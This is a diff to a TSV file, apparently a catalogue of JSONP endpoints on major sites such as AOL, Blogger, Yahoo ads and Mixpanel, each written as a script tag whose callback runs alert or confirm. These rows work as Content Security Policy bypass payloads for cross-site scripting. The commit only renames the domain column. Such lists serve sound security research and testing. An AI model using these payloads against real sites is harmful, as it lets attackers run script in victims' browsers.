

Before and after one commit to asuspctow/csp, a TSV file: domin.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update domin.tsv

```diff
--- a/domin.tsv
+++ b/domin.tsv
-A136: blogger.com <script src="https://www.blogger.com/feeds/5578653387562324002/posts/summary/4427562025302749269?callback=alert(1337)"></script>
+A136: www.blogger.com <script src="https://www.blogger.com/feeds/5578653387562324002/posts/summary/4427562025302749269?callback=alert(1337)"></script>
-A153: aol.com <script src="https://www.aol.com/amp-proxy/api/finance-instruments/14.1.MSTATS_NYSE_L/?callback=confirm(9)//jQuery1120033838593671435757_1537274810388&_=1537274810389"></script>
+A153: www.aol.com <script src="https://www.aol.com/amp-proxy/api/finance-instruments/14.1.MSTATS_NYSE_L/?callback=confirm(9)//jQuery1120033838593671435757_1537274810388&_=1537274810389"></script>
-A155: cmi.aol.com <script src="https://api.cmi.aol.com/content/alert/homepage-alert?site=usaol&callback=confirm(1);//jQuery20108887725116629929_1528071050373472232&_=1528071050374"></script>
+A155: api.cmi.aol.com <script src="https://api.cmi.aol.com/content/alert/homepage-alert?site=usaol&callback=confirm(1);//jQuery20108887725116629929_1528071050373472232&_=1528071050374"></script>
-A156: cmi.aol.com <script src="https://api.cmi.aol.com/catalog/cms/help-central-usaol-navigation-utility?callback=confirm(1);//jQuery20108887725116629929_152807105037740504&_=1528071050378"></script>
+A156: api.cmi.aol.com <script src="https://api.cmi.aol.com/catalog/cms/help-central-usaol-navigation-utility?callback=confirm(1);//jQuery20108887725116629929_152807105037740504&_=1528071050378"></script>
-A157: yap.yahoo.com <script src="https://ads.yap.yahoo.com/nosdk/wj/v1/getAds.do?locale=en_us&agentVersion=205&adTrackingEnabled=true&adUnitCode=2e268534-d01b-4616-83cd-709bd90690e1&apiKey=P3VYQ352GKX74CFTRH7X&gdpr=false&euconsent=&publisherUrl=https%3A%2F%2Fwww.autoblog.com&cb=alert();"></script>
+A157: ads.yap.yahoo.com <script src="https://ads.yap.yahoo.com/nosdk/wj/v1/getAds.do?locale=en_us&agentVersion=205&adTrackingEnabled=true&adUnitCode=2e268534-d01b-4616-83cd-709bd90690e1&apiKey=P3VYQ352GKX74CFTRH7X&gdpr=false&euconsent=&publisherUrl=https%3A%2F%2Fwww.autoblog.com&cb=alert();"></script>
-A159: aol.com <script src="https://www.aol.com/amp-proxy/api/finance-instruments/14.1.MSTATS_NYSE_L/?callback=confirm(9)//jQuery1120033838593671435757_1537274810388&_=1537274810389"></script>
+A159: www.aol.com <script src="https://www.aol.com/amp-proxy/api/finance-instruments/14.1.MSTATS_NYSE_L/?callback=confirm(9)//jQuery1120033838593671435757_1537274810388&_=1537274810389"></script>
-A165: sharethis.com <script src="https://www.sharethis.com/get-publisher-info.php?callback=alert(1337)"></script>
+A165: www.sharethis.com <script src="https://www.sharethis.com/get-publisher-info.php?callback=alert(1337)"></script>
-A166: addthis.com <script src="https://m.addthis.com/live/red_lojson/100eng.json?callback=alert(1337)"></script>
+A166: m.addthis.com <script src="https://m.addthis.com/live/red_lojson/100eng.json?callback=alert(1337)"></script>
-A169: meteoprog.ua <script src="https://www.meteoprog.ua/data/weather/informer/Poltava.js?callback=alert(1337)"></script>
+A169: www.meteoprog.ua <script src="https://www.meteoprog.ua/data/weather/informer/Poltava.js?callback=alert(1337)"></script>
-A170: userlike.com <script src="https://api.userlike.com/api/chat/slot/proactive/?callback=alert(1337)"></script>
+A170: api.userlike.com <script src="https://api.userlike.com/api/chat/slot/proactive/?callback=alert(1337)"></script>
-A171: youku.com <script src="https://www.youku.com/index_cookielist/s/jsonp?callback=alert(1337)"></script>
+A171: www.youku.com <script src="https://www.youku.com/index_cookielist/s/jsonp?callback=alert(1337)"></script>
-A172: mixpanel.com <script src="https://api.mixpanel.com/track/?callback=alert(1337)"></script>
+A172: api.mixpanel.com <script src="https://api.mixpanel.com/track/?callback=alert(1337)"></script>
-A173: travelpayouts.com <script src="https://www.travelpayouts.com/widgets/50f53ce9ada1b54bcc000031.json?callback=alert(1337)"></script>
+A173: www.travelpayouts.com <script src="https://www.travelpayouts.com/widgets/50f53ce9ada1b54bcc000031.json?callback=alert(1337)"></script>
-A174: Pictela.net <script src="http://ads.pictela.net/a/proxy/shoplocal/alllistings/d5dadac1578db80a/citystatezip=10008;pd=40B5B0493316E5A3D4A389374BC5ED3ED8C7AB99817408B4EF64205A5B936BC45155806F9BF419E853D2FCD810781C;promotioncode=Petco-140928;sortby=23;listingimageflag=y;listingimagewidth=300;resultset=full;listingcount=100;;callback=alert(1);/json"></script>
+A174: ads.pictela.net <script src="http://ads.pictela.net/a/proxy/shoplocal/alllistings/d5dadac1578db80a/citystatezip=10008;pd=40B5B0493316E5A3D4A389374BC5ED3ED8C7AB99817408B4EF64205A5B936BC45155806F9BF419E853D2FCD810781C;promotioncode=Petco-140928;sortby=23;listingimageflag=y;listingimagewidth=300;resultset=full;listingcount=100;;callback=alert(1);/json"></script>
-A175: Adtech.com <script src="https://adserver.adtechus.com/pubapi/3.0/9857.1/3792195/0/170/ADTECH;noperf=1;cmd=bid;bidfloor=0.12;callback=confirm(1);//window.proper_d31c1
+A175: adserver.adtechus.com <script src="https://adserver.adtechus.com/pubapi/3.0/9857.1/3792195/0/170/ADTECH;noperf=1;cmd=bid;bidfloor=0.12;callback=confirm(1);//window.proper_d31c1
```
